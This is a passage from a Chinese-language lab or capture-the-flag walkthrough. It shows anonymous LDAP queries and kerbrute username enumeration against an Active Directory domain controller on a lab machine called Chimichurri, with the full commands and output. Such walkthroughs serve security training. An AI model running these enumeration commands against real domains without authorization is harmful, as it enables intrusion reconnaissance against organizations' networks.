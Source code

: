 ## 5. ldap获取域内基础信息
```bash
ldapsearch -x -H ldap://192.168.200.4 -s 'base' namingcontexts

┌──(root㉿kali)-[/home/kali/thl/Chimichurri]
└─# ldapsearch -x -H ldap://192.168.200.4 -s 'base' namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts
#

#
dn:
namingContexts: DC=chimichurri,DC=thl
namingContexts: CN=Configuration,DC=chimichurri,DC=thl
namingContexts: CN=Schema,CN=Configuration,DC=chimichurri,DC=thl
namingContexts: DC=DomainDnsZones,DC=chimichurri,DC=thl
namingContexts: DC=ForestDnsZones,DC=chimichurri,DC=thl

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```
没啥有用的东西
## 6. kerbrute枚举出域内用户
我们目前需要一个可用的域用户。由于对匿名用户做了限制不让进行 `rid-brute` 直接获取域内用户。 那只能尝试爆破枚举了
```bash
┌──(root㉿kali)-[/home/kali/thl/Chimichurri]
└─# kerbrute userenum -d chimichurri.thl -t 100 --dc 192.168.200.4  /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 12/03/24 - Ronnie Flathers @ropnop

2024/12/03 12:49:28 >  Using KDC(s):
2024/12/03 12:49:28 >   192.168.200.4:88

2024/12/03 12:49:28 >  [+] VALID USERNAME:       hacker@chimichurri.thl
2024/12/03 12:49:28 >  [+] VALID USERNAME:       Hacker@chimichurri.thl
2024/12/03 12:49:33 >  [+] VALID USERNAME:       invitado@chimichurri.thl
2024/12/03 12:49:47 >  [+] VALID USERNAME:       administrador@chimichurri.thl
2024/12/03 12:49:48 >  [+] VALID USERNAME:       HACKER@chimichurri.thl

2024/12/03 12:54:16 >  Done! Tested 8295455 usernames (5 valid) in 288.265 seconds

┌──(root㉿kali)-[/home/kali/thl/Chimichurri]
└─# awk '{print $7}' valid_user.txt | sed 's/@.*//' >kerber_brute_users.txt

┌──(root㉿kali)-[/home/kali/thl/Chimichurri]
└─# cat kerber_brute_users.txt
hacker
```